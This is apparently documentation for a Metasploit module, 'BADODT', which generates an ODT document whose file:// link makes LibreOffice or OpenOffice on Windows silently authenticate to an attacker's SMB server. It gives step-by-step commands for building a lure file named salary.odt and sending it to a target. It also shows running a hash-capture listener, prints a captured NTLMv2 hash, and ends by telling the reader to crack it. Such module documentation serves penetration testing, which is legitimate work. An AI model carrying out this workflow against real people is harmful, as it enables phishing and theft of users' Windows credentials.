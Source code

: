 BADODT Module creates an ODT file which includes a file:// link which points back to a listening SMB capture server.
This module has been tested on both LibreOffice 6.03 /Apache OpenOffice 4.1.5 and upon opening connects to the server
without providing any warning to the user. This allows an attacker the opportunity to potentially steal NetNTLM hashes.

## Vulnerable Application

 - [LibreOffice 6.03](https://www.libreoffice.org/download/download/)
 - [Apache OpenOffice 4.1.5](https://sourceforge.net/projects/openofficeorg.mirror/files/4.1.5/binaries/en-US/Apache_OpenOffice_4.1.5_Win_x86_install_en-US.exe/download)

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/odt/badodt```
  4. Customise Options as required
  5. Do: ```run```
  6. A malicious document will then be generated.
  7. Configure auxiliary/server/capture/smb or similar to capture hashes.
  8. Send document to target and wait for them to open.

## Options

**CREATOR**

This option allows you to customise the document author for the new document:
```
set CREATOR New_User
```

**FILENAME**

This option allows you to customise the generated filename:
```
set FILENAME salary.odt
```

**LHOST**

This option allows you to set the IP address of the SMB Listener that the .odt document points to:

```
set LISTENER 192.168.1.25
```

## Scenarios

Install LibreOffice 6.03 or Apache OpenOffice 4.1.5 on a Windows workstation.  (Note: This attack does not work against Mac or Linux versions.)

  ```
  msf5 > use auxiliary/odt/badodt
  msf5 auxiliary(odt/badodt) > set FILENAME salary.odt
  FILENAME => salary.odt
  msf5 auxiliary(odt/badodt) > set LHOST 192.168.1.25
  LHOST => 192.168.1.25
  msf5 auxiliary(odt/badodt) > set CREATOR A_USER
  CREATOR => A_USER
  msf5 auxiliary(odt/badodt) > exploit

  [*] Generating Malicious ODT File 
  [*] SMB Listener Address will be set to 192.168.1.25
  [+] salary.odt stored at /root/.msf4/local/salary.odt
  [*] Auxiliary module execution completed
  msf auxiliary(odt/badodt) > 
  ```

On an attacker workstation, use a tool to serve and capture an SMB share on port 445, capturing NTLM hashes.  Note that any tool listening on :445 will require superuser permissions:

  ```
  $ sudo ./msfconsole
  msf5 > use auxiliary/server/capture/smb 
  msf5 auxiliary(server/capture/smb) > run
  [*] Auxiliary module running as background job 0.
  msf5 auxiliary(server/capture/smb) >
  [*] Server started.

  msf5 auxiliary(server/capture/smb) >
  ```

Leave the metasploit SMB server listening while the user opens the document.  Upon opening the ODT file, the user workstation will attempt to connect (and authenticate) to the attacker workstation:

  ```
  [*] SMB Captured - 2018-06-06 11:14:23 -0500
  NTLMv2 Response Captured from 192.168.108.171:49180 - 192.168.108.171
  USER:asoto-r7 DOMAIN:WIN-TSD7B7BQKDQ OS: LM:
  LMHASH:Disabled
  LM_CLIENT_CHALLENGE:Disabled
  NTHASH:3910d841a30289ad9876e09321c1099a
  NT_CLIENT_CHALLENGE:0101000000000000a9d923e9f909391957581abc8d91038400000000020000000000000000000000
  ```

Finally, crack the hash to capture the user's credentials.
